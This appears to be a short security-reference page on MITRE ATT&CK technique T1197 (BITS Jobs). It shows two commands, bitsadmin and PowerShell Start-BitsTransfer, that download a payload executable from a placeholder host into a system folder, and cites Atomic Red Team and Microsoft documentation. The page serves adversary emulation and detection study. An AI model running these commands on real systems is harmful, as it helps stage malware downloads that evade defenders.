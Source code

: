 # BITS Jobs

---
* **ID**: T1197
* **Source**: <https://attack.mitre.org/techniques/T1197/>
---

# Details

## BITSAdmin
Download a payload leveraging BITSAdmin:
```
bitsadmin.exe /transfer txt /download /priority normal http://example.com/example.exe %ALLUSERSPROFILE%\example.exe
```

## PowerShell
Download a payload leveraging PowerShell:
```
powershell
Start-BitsTransfer -Priority foreground -Source http://example.com/example.exe -Destination %ALLUSERSPROFILE%\example.exe
```

# References

* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md>
* <https://docs.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool>
* <https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal>
* <http://avfisher.win/archives/100>
